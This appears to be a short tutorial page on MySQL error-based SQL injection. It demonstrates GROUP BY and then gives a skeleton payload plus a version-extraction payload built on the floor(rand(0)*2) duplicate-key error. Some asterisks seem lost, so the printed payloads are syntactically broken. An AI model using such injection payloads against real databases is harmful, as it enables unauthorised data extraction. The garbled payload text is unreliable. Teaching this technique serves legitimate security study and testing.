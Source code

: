 # MySQL Server

To exploit error-based SQLi on Mysql we will use 'group by' statement. This statement groups the result by one or more columns.

Example:

```text
mysq> select displayname from accounts;
+-------------------+ 
| displayname       | 
+-------------------+ 
| Aspen Byers       |
| Alexandra Cabrera | 
| David             | 
| David             | 
+-------------------+
4 rows in set (0.00 sec)
```

This is the output of the same query with group by statement:

```text
mysq> select displayname from accounts group by displayname;
+-------------------+
| displayname       |
+-------------------+ 
| Aspen Byers       | 
| Alexandra Cabrera | 
| David             | 
+-------------------+
3 rows in set (0.00 sec)
```

The following is a skeleton you can use to create your MySQL error-based injections:

```text
select 1,2 union select count(), concat(, floor(rand(0)2)) as x from information_schema.tables group by x;
```

To extract the database version, you can use

```text
select 1,2 union select count(), concat(version(), floor(rand(0)2)) as x from information_schema.tables group by x; ERROR 1062 (23000): Duplicate entry '5.5.43-0+deb7u11' for key 'group_key'
```

Note that the last '1' is a result of the random funcion and is not part of the version.

